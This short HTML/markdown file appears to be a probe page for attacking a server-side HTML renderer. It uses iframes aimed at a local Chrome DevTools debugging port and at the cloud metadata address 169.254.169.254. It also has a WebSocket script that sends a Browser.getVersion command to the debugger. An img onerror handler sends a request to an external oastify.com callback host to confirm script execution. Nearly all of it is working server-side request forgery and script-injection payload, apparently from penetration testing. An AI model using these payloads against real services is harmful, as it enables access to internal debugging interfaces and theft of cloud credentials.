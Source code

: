 Hello

1st
<iframe src="http://localhost:3000/json" width="800" height="600"></iframe>
2nd
<iframe src="http://localhost:3000/json/version" width="800" height="600"></iframe>
3rd
<iframe src="http://169.254.169.254/latest" width="800" height="600"></iframe>
4th
<iframe src="https://app.adora.so" width="800" height="600"></iframe>
5th
<object data="https://example.com" type="video/mp4" width="600" height="400"></object>
6th
<div id="output"></div>
<script>
  var ws = new WebSocket('ws://localhost:3000');
  ws.onerror = console.error;
  ws.onclose = console.log;
  ws.onmessage = ev => {
    document.getElementById('output').innerText = ev.data;
  };
  ws.onopen = () => {
    ws.send(JSON.stringify({ "id": 1, "method": "Browser.getVersion" }))
  };
</script>



<img src="image.png", onerror="setTimeout(function(){var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://dyfszgzhmux0g3q4fwhvlw5ualgc44st.oastify.com', true); xhr.send();}, 1000);">

